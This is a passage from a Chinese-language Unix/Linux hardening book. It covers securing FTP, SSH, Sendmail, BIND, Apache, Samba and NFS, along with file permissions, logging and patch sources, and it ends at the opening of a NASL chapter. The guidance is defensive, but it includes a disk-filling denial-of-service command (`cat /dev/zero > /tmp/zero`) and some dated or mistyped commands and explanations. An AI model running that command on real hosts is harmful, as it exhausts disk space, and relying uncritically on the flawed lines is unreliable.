如果所有 `inetd` 或 `xinetd` 服务都已禁用，则无需让 `inetd` 或 `xinetd` 保持运行。要阻止在启动时执行 `inetd` 或 `xinetd`，请禁用 `/etc/rc.d` 和 `/etc/rc.local` 中相应的文件。

### 确保日志功能已开启

如果正在运行 `inetd`，请编辑 `inetsvc` 文件，确保 `inetd` 在使用 `-t` 标志时被调用。对于 `xinetd`，请编辑 `xinetd.conf` 文件，并确保存在以下行：

```
log_type = SYSLOG authpriv
```

此外，编辑 `syslog.conf`，确保 `*.info` 已启用以记录到 `/var/log/messages`。

### 加固远程服务

本节提供了一些在 Unix 和 Linux 主机上常用的远程服务加固建议。

使用 `netstat` 查找在 TCP 和 UDP 端口上监听的进程：

```bash
### netstat -nap
Proto Local Address            Foreign Address State  PTD/name
tcp   0 0.0.0.0:139     0.0.0.0:*  LISTEN  1251/smbd
tcp   0 0.0.0.0:6000    0.0.0.0:*  LISTEN  11228/X
tcp   0 0.0.0.0:80      0.0.0.0:*  LISTEN  2047/httpd
tcp   0 0.0.0.0:113     0.0.0.0:*  LISTEN  728/identd
tcp   0 0.0.0.0:22      0.0.0.0:*  LISTEN  750/sshd
udp   0 0.0.0.0:512     0.0.0.0:*  14059/xinetd
[...]
```

#### WU-FTPD

FTP（文件传输协议）是一种用于在一个主机之间传输文件的协议。WU-FTPD 是 Unix 和 Linux 上使用最广泛的 FTP 守护进程。它可以从 `http://www.wu-ftpd.org` 获取。请采取以下措施来加固 WU-FTPD：

- 更改服务器横幅。编辑 `/etc/ftpaccess` 并使用 `greeting` 指令指定新的横幅。例如：

    ```
    greeting text No banner information available. Sorry.
    ```

- 确保 `/etc/ftpusers` 包含不应允许通过 FTP 登录的用户列表。诸如 `root`、`bin` 和 `ftpd` 等用户不应允许通过 FTP 登录。

- 编辑 `inetd.conf` 或 `/etc/xinetd.d/ftp`，确保 `in.ftpd` 在使用 `-l` 标志时被调用。这将启用日志记录。

- 如果允许匿名上传，上传的文件必须不可见，且禁止下载已上传的文件。否则，您的 FTP 服务器可能会被软件盗版者滥用。详情请参见 [http://www.wu-ftpd.org/HOWTO/upload.configuration.HOWTO](http://www.wu-ftpd.org/HOWTO/upload.configuration.HOWTO)。

- 使用 `chroot` 的 FTP 环境，特别是用于匿名访问。有关如何设置此环境的详细说明，请参阅 [http://www.wu-ftpd.org/HOWTO/guest.HOWTO](http://www.wu-ftpd.org/HOWTO/guest.HOWTO)。

考虑使用 ProFTPd 作为 WU-FTPD 的替代品，因为它在远程漏洞方面的表现不如 WU-FTPD 敏感。ProFTPd 可在 [http://www.proftpd.org/](http://www.proftpd.org/) 获取。

#### SSH

SSH 是一种用于交换数据的安全协议。它可用于登录远程机器、远程执行命令和传输文件。由于 SSH 内部的通信是加密的，因此它是 `telnet`、`rlogin` 和 `FTP` 等远程登录方案的有益替代。请采取以下措施来加固 SSH：

- 确保 SSH 协议版本 1 已禁用。`sshd_config` 文件必须包含以下行：

    ```
    Protocol 2
    ```

- 不应允许 `root` 用户通过 SSH 登录。确保 `sshd_config` 中存在以下行：

    ```
    PermitRootLogin no
    ```

- 诸如 `ssh_host_key`、`ssh_host_dsa_key` 和 `ssh_host_rsa_key` 等私钥文件应仅对 `root` 可读。

- 确保特权分离已开启。`sshd_config` 中必须存在以下行：

    ```
    UsePrivilegeSeparation yes
    ```

#### Sendmail

Sendmail 是互联网上最常用的 MTA（邮件传输代理）。为了加固 Sendmail，请确保采取以下措施：

- 更改 STMP 问候消息。编辑 `sendmail.cf` 文件并更改 `SmtpGreetingMessage` 的值以反映新的横幅。或者，您可以编辑 `sendmail.mc` 并将 `confSMTP_LOGIN_MSG` 的值设置为新的问候语。

- `EXPN` 和 `VRFY` 是 SMTP 协议支持的两个命令，允许枚举用户名。您应该通过编辑 `sendmail.cf` 并确保 `PrivacyOptions` 设置为 `authwarnings,noexpn, novrfy, restrictqrun` 来关闭它们。或者，您可以编辑 `sendmail.mc` 文件并确保存在以下行：

    ```
    define(`confPRIVACY_FLAGS', `authwarnings,noexpn,novrfy, restrictqrun')dnl
    ```

    还可以设置其他标志，如 `goaway`、`restrictmailq`、`restrictqrun` 和 `nobodyreturn`。详情请参见 Sendmail 文档。

- 使用 `smrsh` 作为 MDA（邮件投递代理）。`smrsh` 程序是 `sh` 的替代品；它限制了使用 Sendmail 的 `| command` 语法可以运行的命令。要启用 `smrsh`，请确保 `sendmail.mc` 中存在以下行：

    ```
    FEATURE(`smrsh', `/path/to/smrsh')dnl
    ```

- 确保以下文件和目录具有适当的权限：

| 文件或目录 | 用户 | 组 | 权限 |
|---|---|---|---|
| /etc/aliases | root | root | -rw-r--r-- |
| /etc/mail | root | root | drwxr-xr-x |
| /var/spool/mail | root | mail | drwxrwxr-x |
| /var/spool/mqueue | root | mail | drwxr-xr-x |

- 检查 `/etc/mail/access` 的内容。此文件包含允许通过 Sendmail 服务器中继的主机名。请勿在此文件中放置不受信任的主机名。

- 对允许的最大电子邮件大小设置限制。可以通过在 `sendmail.mc` 中设置 `confMAX_MESSAGE_SIZE` 的值来实现，例如：

    ```
    define(`confMAX_MESSAGE_SIZE', `1048576')dnl
    ```

    或者，编辑 `sendmail.cf` 文件并将 `MaxMessageSize` 的值更改为适当的值。

- Sendmail 已知易受许多远程可利用的漏洞影响。考虑使用 `qmail` 作为替代品针对 Sendmail。`qmail` 程序可从 `http://cr.yp.to/qmail.html` 获取。

`Sendmail.mc` 是一个宏配置文件。如果对该文件进行了修改，必须使用以下命令生成新的 `sendmail.cf` 文件：

```
m4 /etc/mail/sendmail.mc > /etc/sendmail.cf
```

这将生成一个更新后的 `sendmail.cf` 文件。重启 Sendmail 以使更改生效。

#### BIND（DNS）

DNS（域名系统）是一种用于在域名和 IP 地址之间进行转换的协议。BIND（Berkeley Internet Name Domain）是互联网上使用最广泛的 DNS 服务器。采取以下措施来加固 BIND：

- 编辑 BIND 配置文件 `named.conf`，并覆盖版本号：


```
options {
    version "Not available";
};
```

- 限制区域传输。使用 `allow-transfer` 指令指定允许执行区域传输的主机：

```
options {
    allow-transfer { ip_address; };
};
```

- 此外，考虑使用 TSIG（事务签名）来加密交换区域数据。

- 关闭递归查询。这将防止你的 DNS 服务器容易受到欺骗攻击：

```
options {
    fetch-glue no;
    recursion no;
};
```

- 在 chroot 环境中运行 BIND。详情参见 http://www.homeport.org/~adam/dns.html 和 http://www.etherboy.com/dns/chrootdns.html。

- 限制动态更新，因为此功能允许远程实体删除和添加记录。默认情况下，BIND 不允许动态更新。只有通过使用 `allow-update` 语句才能启用它，因此请谨慎使用此选项。

- 考虑使用 djbdns 作为 BIND 的替代方案。djbdns 服务器可在 http://cr.yp.to/djbdns.html 获取。

## Apache（HTTP 和 HTTPS）

Apache 是当今使用最流行的 Web 服务器。可以采取以下步骤来加固 Apache 服务器配置：

- 修改你的 HTTP 横幅。编辑你的 `httpd.conf` 文件并确保存在以下指令：

`ServerSignature Off`

`ServerTokens Prod`

禁用 `ServerSignature` 标记指示 Apache 在显示错误页面（如 404（未找到））时不打印版本信息。当 `ServerTokens` 指令设置为 `Prod` 时，指示 Apache 仅在横幅中显示“Server: Apache/”。如果你不想在 Server 标签中显示“Apache”，但希望显示虚假信息，例如“Server: Not-allowed”，你需要：

1. 下载 Apache 源代码。
2. 编辑文件 `httpd.h`，并将该行中字符串 `"Apache"` 的值更改为其他内容，
   `#define SERVER_BASEPRODUCT "Apache"`
   更改为：
   `#define SERVER_BASEPRODUCT "Not-allowed"`
3. 重新编译、重新安装并重启 Apache。

- 关闭自动索引。这将指示 Apache 在没有默认索引文件（如 index.html）的情况下不提供目录列表。使用 `httpd.conf` 中的 `IndexIgnore` 指令来实现此功能。

- 配置 Apache 不提供敏感文件，例如 `.htaccess`、`.htpasswd`、\*.inc、\*.jsp、\*.java 或 \*.php。作为示例，在 `httpd.conf` 中使用以下指令限制 Apache 提供以 .ht 开头的文件名：

```
<Files ~ "^\.ht">
    Order allow,deny
    Deny from all
</Files>
```

- 移除默认的手册页。
- 移除默认和示例 CGI 脚本和应用程序。
- 使用 `AccessFileName` 指令设置 Apache 必须用于访问控制的文件名。这通常设置为 `.htaccess`。
- 考虑在 chroot 环境中运行 Apache。详见 `http://hoohoo.ncsa.uiuc.edu/docs/tutorials/chroot.html` 中的详细说明。
- 确保 Apache 设置为以非 root 权限运行。查看 `httpd.conf` 中的 `User` 和 `Group` 设置，并确保它们设置为非 root 账户，如 `apache` 或 `httpd`。
- 使用 `ErrorLog`、`CustomLog`、`LogLevel` 和 `LogFormat` 指令启用日志记录。确保在 `httpd.conf` 中正确设置这些指令。
- 禁用不需要的模块。在 `httpd.conf` 中注释掉相应的 `AddModule` 和 `LoadModule` 指令行。


## Samba

Samba 使用 SMB（服务器消息块）协议通过网络共享文件和打印机。遵循这些步骤来加固 Samba 服务器配置：

- 更改服务器字符串。编辑 `smb.conf` 并将
  `server string = Samba Server`
  更改为其他内容：
  `server string = no information`
  这将更改显示在每个共享名称旁边的描述字段。
- 为了更改实际的 Samba 版本信息，编辑 `source/include/version.h` 文件并将常量 `VERSION` 的值更改为其他内容。你必须重新编译并重新安装 Samba 才能使更改生效。
- 编辑 `smb.conf` 并设置 `hosts allow` 选项的值，以限制允许连接到你的服务器的主机。
- 使用密码加密。在 `smb.conf` 中将 `encrypt passwords` 的值设置为 `yes`。更多信息参见 `http://us1.samba.org/samba/tp/docs/txtdocs/ENCRYPTION.txt`。
- 如果你有多个网卡，可以指示 Samba 仅在一个特定接口上监听。使用 `smb.conf` 中的 `interfaces` 选项来指定 Samba 必须监听哪些接口。
- 研究 `smb.conf` 文件，确保未授予对存储关键信息的共享的访客访问权限。

## NFS

NFS（网络文件系统）是一种文件系统协议，提供跨网络共享文件的远程访问。以下是加固 NFS 服务器配置的一些步骤：

- 将文件系统导出为只读。考虑不要以写权限导出它们。在 `/etc/exports` 或 `/etc/dfs/sharetab` 中使用 `ro` 选项指定共享为只读。这是一个示例：
  `/share nfsclient_ip(ro)`
- 防止非 root 用户挂载 NFS 共享。为此，编辑 `/etc/exports` 或 `/etc/dfs/sharetab`，并确保存在 `(secure)` 选项。例如：
  `/share nfsclient_ip(secure)`
- 不允许远程用户使用 root 权限挂载 NFS 共享。这将允许他们修改 NFS 共享上由 root 拥有的文件。在 `/etc/exports` 或 `/etc/dfs/sharetab` 中使用 `root_squash` 选项来防止这种情况。
- NFS 客户端必须配置为不在挂载的共享上运行 setuid 程序。否则，恶意或已被入侵的 NFS 服务器可能在导出的共享上放置 root setuid 特洛伊文件，这些文件将在客户端上以 root 身份执行。挂载 NFS 共享时使用 `nosuid` 选项。如果可能，还考虑使用 `noexec` 选项，该选项禁止在 NFS 客户端上执行二进制文件。

## 总结

尽可能加固系统配置非常重要。必须严格执行密码策略，以确保使用强密码，并且如果不使用，应禁用不必要的服务。此外，应禁用堆栈执行以防止多种形式的缓冲区溢出攻击。`/root` 和 `/etc/hosts.equiv` 等文件必须定期审计，如果未使用则移除。`PATH` 变量不应包含 "." 以防止特洛伊可执行文件。强烈建议采用本章中描述的加固步骤，以确保远程服务的安全配置。

# 第 8 章

# 用户和文件系统权限

### 本章内容：

- 文件权限：快速教程
- 全局可读文件
- 全局可写文件
- 由 bin 和 sys 拥有的文件
- umask 值
- 重要文件
- /dev 中的文件
- 磁盘分区
- setuid 和 setgid 文件
- 实施 wheel 组
- Sudo
- 总结

并且文件系统权限必须受到严格控制。一个简单的配置错误，例如单个文件的错误文件权限，就可能导致整个系统被攻破。本章旨在为系统管理员提供有用的提示，以确保正确的用户和文件系统权限。

### 文件权限：快速教程

使用 `ls` 命令加上 `-l` 标志来检查文件权限。例如，让我们检查分配给 `/usr/sbin/id` 命令的文件权限：

```
(bash)$ ls -l /usr/bin/id
-rwxr-xr-x 1 root root 13864 Apr 8 2002 /usr/bin/id
```


上述输出的第一列描述了相关的文件权限。第一个字符被设置为连字符（`-`），表示 `/usr/bin/id` 是一个文件。如果是目录，该字符将被设置为 `d`。接下来的三个字符（`rwx`）代表文件所有者的权限，在这种情况下是 `root`，如上述输出的第三列所示。这三个字符之后的三个字符（`r-x`）代表与此文件关联的组的权限，在这种情况下也是 `root`，如输出的第四列所示。最后三个字符（`r-x`）代表与其他所有用户（即所有人）相关的权限。

字符 `r` 表示读权限，而字符 `w` 和 `x` 分别代表写和执行权限。当分配 `setuid` 或 `setgid` 权限时，字符 `s` 会替换 `x`。如果 `root` 用户为目录开启了粘着位（sticky bit），最后一个字符（`x`）将被替换为 `t`。当粘着位开启时，所有用户都有该目录的读写权限，但只能访问他们自己拥有的文件。因此，请注意 `/tmp` 目录的粘着位是开启的。

使用 `chmod` 命令来更改文件的权限。假设我们有一个名为 `perm` 的文件：

```
(bash)# ls -l perm
-rw-rw-r-- 1 root root 0 Apr 5 22:40 perm
```

上面的列表显示，用户 `root` 和组 `root` 拥有读或写该文件的权限。其他所有用户只能读取该文件。如果我们想要更改 `perm` 的文件权限，使得 `root` 用户（`u`）也可以执行（`x`）该文件，我们需要如下执行 `chmod`：

```
chmod u+x perm
```

类似地，假设我们要撤销组（`g`）的读（`r`）和写（`w`）权限：

```
chmod g-rw perm
```

以下是我们撤销其他所有（`o`）用户读（`r`）权限的方法：

```
chmod o-r perm
```

也可以将上述三个文件权限更改一起通过执行 `chmod` 来完成：

```
chmod u+x,g-rw,o-r perm
```

Unix 和 Linux 文件权限也可以用数字形式表示。这是通过将每组权限（用户、组和其他）分解为八进制位来实现的。为方便您查阅，这里列出了八种可能的八进制值：

| 值 | 权限 | 值 | 权限 |
| :--- | :--- | :--- | :--- |
| 0 | --- | 4 | r-- |
| 1 | --x | 5 | r-x |
| 2 | -w- | 6 | rw- |
| 3 | -wx | 7 | rwx |

因此，要将文件的权限设置为 `rwxr-xr-x`，可以这样使用 `chmod` 命令：

```
chmod 755 perm
```

若要添加 `setuid` 权限，请将结果值加上 `4000`。若要设置 `setgid` 权限，请加上 `2000`。若要同时设置 `setuid` 和 `setgid` 权限，请加上 `6000`。例如，要在文件所有者具有读写权限的同时设置 `setuid` 权限，请如下执行 `chmod`：

```
chmod 4600 perm
```

### 全球可读文件

定期审查全球可读文件是个好主意。恶意用户通常会搜索包含关键信息的全球可读文件，这些信息可能帮助他们实现权限提升。

使用 `find` 命令搜索全球可读文件：

```
find /etc -type f -perm -4 \
-print 2> /dev/null
```

全球可写文件可能会被恶意用户利用以获得 `root` 权限。考虑一个设置为每个人都可以写入的 `setuid` 可执行脚本。恶意用户可以编辑此类脚本以以 `root` 身份执行任何命令。

使用 `find` 命令搜索全球可写文件：

```
find / -type f -perm -2 -print 2 > /dev/null
```

### 由 `bin` 和 `sys` 拥有的文件

一些发行版错误地将可执行文件分配给非 `root` 用户，例如 `bin` 和 `sys`。

例如，假设 `/usr/bin/in.telnetd` 由用户 `bin` 拥有并可写。如果入侵者成功使用用户 `bin` 的权限挂载服务器的 `NFS` `/usr/bin` 共享，他或她将被允许用木马替换 `/usr/bin/in.telnetd`，该木马将在每次收到传入的 `telnet` 连接时由 `inetd` 或 `xinetd` 以 `root` 权限执行。

要检查由 `bin` 拥有的文件，运行以下命令：

```
find / -user bin -print 2 > /dev/null
```

类似地，使用以下命令检查由 `sys` 拥有的文件：

```
find / -user sys -print 2 > /dev/null
```

### `umask` 值

每次创建新文件或目录时，都会根据 `umask` 值赋予默认权限。使用 `umask` 命令查找当前用户的 `umask` 值：

```
[bash]$ umask -p
umask 0002
```

`umask` 的值是通过将文件权限的八进制值与文件的 `666` 或目录的 `777` 进行异或（XOR）运算确定的。对于文件，请注意 `umask` 值不允许设置执行（`x`）权限。

`XOR` 代表 `异或`。以下是 XOR 的真值表：

| XOR | 0 | 1 |
| :--- | :--- | :--- |
| 0 | 0 | 1 |
| 1 | 1 | 0 |

假设我们希望 `umask` 值指示文件所有者具有读写权限，而组或其他用户没有任何权限。此外，假设我们希望目录的 `umask` 包含执行（`x`）权限。如果目录没有执行（`x`）权限，则无法 `cd`（更改目录）进入该目录。这种设置的文件权限值为 `700`，分解为八进制位时表示为：

`111 000 000`

使用前面的表格，让我们将此值与 `777` 进行异或运算，以获得适当的 `umask` 值：

`111 000 000` : `700`

`111 111 111` : `777`

XOR: `000 111 111` : `077`

使用 `umask` 命令设置新的 `umask` 值：

```
umask 077
```

推荐的 `umask` 值是 `077`。这导致每个新创建的文件或目录只能被其所有者读取和写入。

请注意，`umask` 值是三组八进制位，即三组八位。编译器创建的文件通常遵循 `umask` 值（除了 `x` 位）。

## 重要文件

确保以下文件已分配适当的权限：

| 文件名 | 用户 | 组 | 权限 |
| :--- | :---: | :---: | :---: |
| /bin | root | root | drwxr-xr-x |
| /etc | root | root | drwxr-xr-x |
| /etc/aliases | root | root | -rw-r--r-- |
| /etc/default/login | root | root | -rw------- |
| /etc/exports | root | root | -rw-r--r-- |
| /etc/hosts | root | root | -rw-rw-r-- |
| /etc/hosts.allow | root | root | -rw------- |
| /etc/hosts.deny | root | root | -rw------- |
| /etc/hosts.equiv | root | root | -rw------- |
| /etc/hosts.lpd | root | root | -rw------- |
| /etc/inetd.conf | root | root | -rw------- |
| /etc/issue | root | root | -rw-r--r-- |
| /etc/login.access | root | root | -rw------- |
| /etc/login.conf | root | root | -rw------- |
| /etc/login.defs | root | root | -rw------- |
| /etc/motd | root | root | -rw-r--r-- |
| /etc/mtab | root | root | -rw-r--r-- |
| /etc/netgroup | root | root | -rw------- |
| /etc/passwd | root | root | -rw-r--r-- |
| /etc/rc.d | root | root | drwx------- |
| /etc/rc.local | root | root | -rw------- |
| /etc/rc.sysinit | root | root | -rw------- |
| /etc/security | root | root | -rw------- |
| /etc/services | root | root | -rw-r--r-- |
| /etc/shadow | root | root | -r-------- |
| /etc/ssh/ssh_host_key | root | root | -rw------- |


| `/etc/ssh/ssh_host_dsa_key` | root | root | -rw------- |
| `/etc/ssh/ssh_host_rsa_key` | root | root | -rw------- |
| `/root` | root | root | drwx------- |
| `/sbin` | root | root | drwxr-xr-x |
| `/tmp` | root | root | drwxrwxrwt |
| `/usr/bin` | root | root | drwxr-xr-x |
| `/usr/etc` | root | root | drwxr-xr-x |
| `/usr/sbin` | root | root | drwxr-xr-x |
| `/var/log` | root | root | drwxr-xr-x |
| `/var/log/autolog*` | root | root | -rw------- |
| `/var/log/boot*` | root | root | -rw------- |
| `/var/log/cron*` | root | root | -rw------- |
| `/var/log/dmesg` | root | root | -rw------- |
| `/var/log/lastlog` | root | root | -rw------- |
| `/var/log/maillog*` | root | root | -rw------- |
| `/var/log/messages*` | root | root | -rw------- |

| 文件名 | 用户 | 组 | 权限 |
| --- | --- | --- | --- |
| `/var/log/secure*` | root | root | -rw------- |
| `/var/log/spooler*` | root | root | -rw------- |
| `/var/log/syslog*` | root | root | -rw------- |
| `/var/log/utmp*` | root | utmp | -rw-rw-r-- |
| `/var/log/wtmp*` | root | utmp | -rw-rw-r-- |
| `/var/log/xferlog` | root | root | -rw------- |
| `/var/run` | root | root | drwxr-xr-x |
| `/var/run/*.pid` | root | root | -rw-r--r-- |
| `/var/spool/cron` | root | root | drwx------ |
| `/var/spool/cron/crontabs/root` | root | root | -rw------- |
| `/var/spool/mail` | root | mail | drwxrwxr-x |
| `/var/spool/mail/*` | user | user | -rw-rw---- |
| `/var/tmp` | root | root | drwxrwxrwt |

> 上表中列出的某些文件可能不适用于所有发行版。此外，某些文件可能位于不同的目录中。请使用 `find` 命令定位它们：`find / -type f -name filename -print 2> /dev/null`。

### /dev 中的文件

设备由 `/dev` 目录中的特殊文件表示，且必须为这些文件设置适当的文件权限。考虑 `/dev/hda*`，它代表 Linux 中的 IDE 磁盘。如果这些文件对“世界”可读，恶意用户将对磁盘上的所有数据拥有读取权限！使用 `mount` 命令查找系统中与已挂载驱动器关联的 `/dev` 文件。

此外，请确保其他设备文件（如 `/dev/console`、`/dev/tty/*`、`/dev/pty*`、`/dev/audio` 和 `/dev/dsp*`）也设置了正确的权限。

### 磁盘分区

恶意用户可以通过消耗所有可用的磁盘空间来发起拒绝服务攻击。请考虑以下命令：

```bash
cat /dev/zero > /tmp/zero^C
```

上述命令将导致创建新文件 `/tmp/zero`。除非用户按 CTRL-C 中断命令，否则该文件的大小将持续增加。文件 `/dev/zero` 是一个包含零的特殊“无尽”文件。让上述命令运行一段时间后，恶意用户可能会消耗磁盘上的所有空间。这可能会导致不良结果，因为许多正在运行的程序需要并依赖可用的磁盘空间才能正常工作。

建议将以下目录挂载在单独的分区中：

- `/boot`
- `/home(s)`
- `/tmp`
- `/var`

此外，在挂载 `/var` 和 `/tmp` 分区时，请考虑使用 `no dev`、`no suid` 和 `no exec` 选项。

### setuid 和 setgid 文件

检查设置了 setuid 和 setgid 位的文件，因为此类文件将以所有者的权限执行。`root` 或 `wheel` 用户拥有的 setuid 和 setgid 文件中的漏洞可能导致 root 权限被攻陷。如果可能，请考虑从文件中移除 setuid 和 setgid 位。

要查找 setuid 文件，请运行

```bash
find / -perm -4000 -type f -print 2> /dev/null
```

要查找 setgid 文件，请运行

```bash
find / -perm -2000 -type f -print 2> /dev/null
```

### 实现 wheel 组

使用 `wheel` 组来限制对 `su` 等 setuid 程序的访问。如果该组不存在，请使用 `groupadd` 命令创建它。修改 `su` 的权限，使得只有 `wheel` 组中的用户才能执行它：

```bash
chgrp wheel $(which su)
chmod u+s,o-rwx,urwx,g+rx $(which su)
```

### SUDO

`Sudo` 是一款免费工具，允许获许可的用户以 root 权限执行命令。如果多个人员需要执行特权操作，设置 `Sudo` 以提供特定权限是个好主意。这比共享 root 密码要好。`Sudo` 通常包含在大多数发行版中，但也可以在 `http://www.sudo.ws/sudo/` 获取。关于如何设置和配置 `Sudo` 的说明和示例，请参阅 `http://www.onlamp.com/pub/a/bsd/2002/08/29/Big_Scary_Daemons.html`。

#### 总结

理解并强制执行正确的文件权限至关重要。除了由 `bin` 和 `sys` 等系统账户拥有的文件外，必须定期审计对所有用户可读和可写的文件。`umask` 值应设置为尽可能严格。还必须审计重要的配置文件，以确保权限正确。必须为 `/tmp` 和 `/var` 等目录创建磁盘分区，以防范拒绝服务攻击。只要可能，应使用 `wheel` 组来限制对 setuid 程序等可执行文件的访问。使用 `Sudo` 允许用户以超级用户权限执行文件也是个好主意。这比共享 root 密码好得多。

## 第 9 章

## 日志记录与修补

**本章内容：**

- 日志记录
- 修补
- 总结

本章介绍了系统事件日志记录的最常见方法；以下各节涵盖了特定的日志文件及其包含的信息。每个系统管理员都理解不同事件及其记录位置至关重要。如果没有这些信息，系统管理员将完全不知道主机上正在发生哪些事件和活动。

除了日志记录，另一个重要问题是软件更新。每天都有软件漏洞公告，并发布了相应的利用代码。通常情况下，软件供应商会以补丁或软件更新的形式修复此类漏洞。本章提供了关于获取此类软件补丁的资源信息。

### 日志记录

本节描述了特定的日志文件及其包含的信息。此外，还讨论了诸如 `/var` 上的磁盘空间和日志轮换等问题。作为管理员，务必理解本节中介绍的信息，以便检测异常的系统活动和行为。

#### 日志文件

以下是一些常见的日志文件以及通常记录在其中的信息。定期查看这些文件是个好主意。

> 取决于您的 Unix 或 Linux 发行版，某些日志文件可能位于不同的目录中。如果您找不到它们，请使用 `find` 命令定位文件：`find /var -name filename -print 2> /dev/null.`

##### /var/audit

大多数 Solaris 发行版都附带了 BSM（基础安全模块），这是一种记录用户操作详情的实用工具。由于 BSM 审计在系统调用级别进行操作，可能会生成巨大的日志。

要启用 BSM，请切换到 runlevel 1：

```bash
init 1
```

然后，运行 `bsmconv`：

```bash
cd /etc/security ; ./bsmconv
```

配置 `/etc/security/audit_control` 以选择要记录哪些事件。有关详细指令，请参阅 `http://www.securityfocus.com/infocus/1362`。重启以使更改生效。

##### /var/adm/loginlog


在五次登录失败后，所有进一步的尝试都会被记录到此文件中。每个日志事件包含登录名称、tty 信息和时间。只有当该文件存在时才会记录到该文件。因此，如果文件不存在，请使用 `touch` 命令创建此文件。确保该文件仅 root 可读。

### `/var/adm/sulog`

`su` 命令用于登录到其他用户的账户。例如，用户 joe 可以 `su` 登录到 jack 的账户：

```bash
[joe’s_bash]$ su - jack
Password: jackpassword
[jack’s_bash]$
```

同样，用户也可以使用 `su` 命令以 root 身份登录：

```bash
[joe’s_bash]$ su -
Password: rootpassword
[root’s_bash]#
```

记录所有 `su` 尝试至关重要。这样做有助于检测恶意本地用户的暴力密码猜测尝试。编辑 `/etc/default/su`，确保 `SULEG` 的值指向 `/var/adm/sulog`。您也可以通过将 `SYSLOG` 的值设置为 `yes` 来启用 `syslogd` 日志记录。

### `/var/log/cron`

`cron` 守护程序将信息记录到此文件。编辑 `/etc/syslog.conf`，确保存在以下行：

```bash
cron.*    /var/log/cron
```

### `/var/log/maillog`

此文件包含由主机的邮件服务器记录的信息。有关发出和传入电子邮件的详细信息以及相应的错误消息会被记录到此文件。编辑 `/etc/syslog.conf`，确保存在以下行：

```bash
mail.*    /var/log/maillog
```

### `/var/log/messages`

此文件包含由 `syslogd` 记录的信息性消息。若要启用日志记录到该文件，`/etc/syslog.conf` 中必须存在类似如下的一行：

```
.info;mail.none;authpriv.none;cron.none	/var/log/messages
```

### `/var/log/secure`

通过用户名和密码或其他类似机制进行身份验证的进程通常会将日志记录到此文件。请确保此文件仅可被 root 用户读取。`/etc/syslog.conf` 中必须存在类似如下的一行：

```
authpriv.*	/var/log/secure
```

### `/var/log/wtmp`

此日志文件包含该主机上发生的所有登录信息。它不是 ASCII 文件，因此必须使用提供的工具（如 `last`）进行查看。以下示例显示了最近的五次登录或注销尝试：

```
(bash)$ last | head -5
       nit  pts/0   gateway   Fri Apr 11 10:12   still logged in
      anita  pts/1   nest      Thu Apr 10 21:14   still logged in
       ozzy   pts/1  gateway    Thu Apr 10 21:06 - 21:08 (00:01)
       kelly   pts/1  ftpserver  Thu Apr 10 20:01 - 20:02 (00:00)
       sharon pts/0  wireless   Thu Apr 10 16:34 - 21:26 (04:52)
```

### `/var/run/utmp`

此文件包含当前登录到该主机的用户信息。它不是 ASCII 文件，因此必须使用 `w` 或 `who` 等工具进行查看。

```
(bash)$ who
deepthi  pts/0     Apr 14 10:12 (intranet)
yash     pts/1     Apr 13 21:14 (egmoreftp)
natasha  pts/1     Apr 13 20:10 (punehttp)
```

#### 日志轮转 (Log Rotation)

日志文件往往增长迅速，并占用大量磁盘空间。在某些环境中，删除旧的日志内容是有意义的。为了启用日志轮转，大多数发行版使用 `newsyslog` 或 `logrotate` 等工具。这些工具应通过 `cron` 守护进程按频繁的时间间隔调用。有关更多细节，请查阅 `newsyslog` 或 `logrotate` 的手册页（`man` pages）。

##### `/var` 中的可用空间

根据环境不同，存储在 `/var` 目录中的日志和 spool 文件可能会变得非常大。建议使用 `df` 命令定期检查 `/var` 中的可用空间。`/var` 目录必须挂载为单独的分区。有关更多信息，请参阅第 8 章中的“磁盘分区”部分。

#### 补丁 (PATCHING)

保持软件补丁和更新处于最新状态至关重要。`Bugtraq` 等邮件列表通常会列出软件漏洞，这些漏洞会迅速得到软件供应商的修复。根据您的发行版和包管理工具的不同，这些补丁可能位于不同的位置。下表列出了最流行的 Unix 和 Linux 发行版，以及获取软件补丁的资源：

| 发行版 | 补丁 |
| :----------- | :------- |
| AIX | http://techsupport.services.ibm.com/rs6000/fixes |
| BSDI | http://www.bsdii.com/services/support/patches/ |
| Caldera OpenLinux | ftp://ftp.calderasystems.com/pub/updates/OpenLinux/ |
| Debian Linux | http://www.debian.org/security/ |
| FreeBSD | ftp://ftp.freebsd.org/pub/FreeBSD/releases/ |
| IRIX | http://www.sgi.com/support/security/ |
| HP Unix | http://us-support.external.hp.com/ |
| Mandrake Linux | http://www.linux-mandrake.com/en/security/ |
| NetBSD | http://www.netbsd.org/Security/ |
| OpenBSD | ftp://ftp.openbsd.org/pub/OpenBSD/patches/ |
| Red Hat Linux | http://www.redhat.com/support/errata/ |
| Slackware Linux | ftp://ftp.slackware.com/pub/slackware/ |
| Solaris | ftp://sunsolve1.sun.com/pub/patches/ |
| SuSE Linux | http://www.suse.com/us/support/security/index.html |

通常，发行版供应商需要更多时间来使用安全补丁更新其资源。如果您的 Unix 或 Linux 发行版供应商未列出针对已宣布漏洞的补丁，请尝试访问软件供应商的网站获取补丁。如果您必须等待您的发行版供应商提供更新，请考虑暂时禁用或卸载存在漏洞的软件。

此外，请查看本书参考中心中的“在线资源”部分，那里列出了可以订阅以接收最新软件漏洞公告及时更新的邮件列表。

##### 摘要 (SUMMARY)

必须启用并强制执行日志记录，以捕获系统活动的详细信息。此外，必须正确设置日志文件的文件权限，以防止恶意用户对其进行篡改。保持软件更新和补丁的最新状态以保护免受本地和远程用户对软件漏洞的利用也非常重要。因此，每个系统管理员都应尝试执行本章中提出的建议，以确保保护系统免受各种类型的恶意活动和入侵尝试。

## 第三部分

### 专题 (Special Topics)

- 第 10 章 Nessus 攻击脚本语言 (NASL)
- 第 11 章 无线黑客攻击
- 第 12 章 使用 Sharp Zaurus PDA 进行黑客攻击

### 第 10 章

#### Nessus 攻击脚本语言 (NASL)

本章内容：

- 从命令行运行 NASL 脚本
- 使用 NASL 编写 Nessus 插件
- 摘要

##### 第三部分：专题 (Special Topics)

`Nessus` 是一款免费且开源的安全扫描器，可从 `http://www.nessus.org/` 获取。本章提供了一个分步示例，介绍如何使用 `NASL`（Nessus 攻击脚本语言）为 `Nessus` 编写漏洞检查插件。由于 `NASL` 专门面向编写 `Nessus` 插件，我们喜欢使这些插件的开发变得简单直观。可以在 `http://cgi.nessus.org/plugins/` 找到 `Nessus` 公开可用的插件列表。

> 使用 `NASL` 编写的插件文件名以扩展名 `".nasl"` 结尾。由于 `NASL` 是一种解释型语言，这些文件也被称为 `NASL`“脚本”。


###### 从命令行运行 NASL 脚本

